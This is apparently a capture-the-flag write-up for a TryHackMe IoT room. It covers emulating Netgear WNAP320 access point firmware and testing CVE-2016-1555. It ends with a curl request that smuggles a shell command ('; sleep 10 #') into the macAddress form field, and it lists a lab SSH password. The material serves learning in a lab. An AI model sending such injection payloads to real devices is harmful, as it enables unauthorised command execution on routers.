








# [IOT intro](https://tryhackme.com/room/iotintro)

## Firmware

_A firmware is a small piece of software that makes hardware work and do what its manufacturer intended it to do. Without it the devices we use wouldn't work._

During this challenge we'll be playing with:

- a [firmware](http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip) used by **Netgear** for a few of their **Access Point products**
- the [CVE-2016-1555](https://www.cvedetails.com/cve/CVE-2016-1555/)
- [firmware-analysis-toolkit](https://github.com/attify/firmware-analysis-toolkit) based on
[firmadyne](https://github.com/firmadyne/firmadyne) (an automated and scalable system for performing emulation and dynamic analysis of Linux-based embedded firmware).

> The difference is that **firmware-analysis-toolkit** just doesn't use PostgreSQL to store information about the emulated images.

___

- `nmap` scan (TCP):

- `ssh` connection (**password:** tryhackme123!):

- Find the firmware archive and extract files:

- Copying `rootfs.squashfs` to **firmware-analysis-toolkit**:

- Running emulation:

 

 

- Running port forwarding: 

 

`ssh -N USER@IP -L LOCAL_PORT:VICTIM_IP:VICTIM_PORT`

**Options**:

1. `-N`: Do not execute a remote command.  This is useful for just forwarding ports.

2. `-L [bind_address:]port:host:hostport`: perform TCP port forwarding. 

- Web app is now running on our machine:

`curl 'http://localhost:8081/boardDataWW.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:8081/boardDataWW.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=8e02ea9cb6bc22dc14d3614d7524c2cc' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw 'macAddress=112233445566;+sleep+10+#&reginfo=0&writeData=Submit'`
